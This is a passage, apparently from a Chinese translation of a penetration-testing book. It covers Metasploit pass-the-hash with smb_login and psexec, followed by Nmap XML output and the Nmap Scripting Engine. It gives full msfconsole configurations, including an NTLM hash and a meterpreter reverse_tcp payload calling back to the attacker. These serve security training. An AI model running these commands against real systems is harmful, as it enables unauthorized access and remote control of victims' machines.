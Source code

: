 set`payload`命令选择要在主机上丢弃的有效负载，然后执行。`reverse_tcp`有效载荷拨回攻击箱以建立连接。如果它是一个`bind`有效载荷，那么在执行后，攻击盒将直接连接到侦听端口。`RHOST`和`LPORT`表示我们要连接的目标主机，以及我们要监听的用于返回通信的攻击盒上的端口。`exploit -j`运行漏洞攻击，然后对结果进行后台处理，这允许您专注于其他事情，根据需要使用`session -i <session number>`返回会话。请记住，执行`smb_login`或`psexec`不需要破解的凭据；相反，您可以只使用 PtH。在这种情况下，`smb_login`命令的文本看起来像以下代码：

### 注

当流程执行完成时，将删除掉在框上的所有有效负载。如果执行过程中断，有效负载可能会留在系统上。如果未正确配置工具以删除检测到的进程的生成器，则使用监视进程的工具的安全性更好的环境可能会有这样的实例。

```
msfconsole
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

以下配置将用于`psexec`命令：

```
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```

现在您已经了解了`nmap grepable`输出的目的和好处，让我们看看 XML 输出的好处。在继续之前，应该注意一项，这将帮助您了解 XML 的好处是什么。查看`nmap grepable`输出的线路。您可以看到，用于区分数据字段的特殊字符很少；这意味着您可以轻松地只提取信息的一小部分。要获得更大的数量，必须使用`sed`和`awk`插入轮廓线。这是一个痛苦的过程，但谢天谢地，您手头有 XML 输出的解决方案。

### 理解 Nmap XML 输出

XML 构建使用子组件和父组件标记数据集的数据树。这允许在遍历列出父关系和子关系的树后，使用特定的标签抓取轻松直接地解析数据。最重要的是，正因为如此，XML 输出可以由其他工具（如 Metasploit）导入。您可以使用`-oX`选项轻松地仅输出为 XML。这些好处的更多细节将在后面的章节中介绍，特别是在[第 9 章](09.html "Chapter 9. Automating Reports and Tasks with Python")中使用 Python 解析 XML 时，*使用 Python*自动生成报告和任务，以帮助自动生成报告数据。

## Nmap 脚本引擎

Nmap 有许多为评估员提供独特功能的脚本。它们可以帮助识别易受攻击的服务，利用系统或与复杂系统组件交互。这些脚本是用一种称为 Lua 的语言编写的，这里将不介绍这种语言。这些脚本可以在 Kali 的`/usr/share/nmap/scripts`中找到。每个脚本都可以使用`--script`选项调用，然后在逗号分隔列表中调用。在对目标系统执行脚本之前，请确保您知道每个脚本的作用，因为可能会对目标系统造成意外后果。

### 注

有关`nmap`脚本的更多详细信息，请访问[http://nmap.org/book/man-nse.html](http://nmap.org/book/man-nse.html) 。有关`nmap`脚本的详细信息，请参见[http://nmap.org/nsedoc/](http://nmap.org/nsedoc/) 及其目的和类别关联。
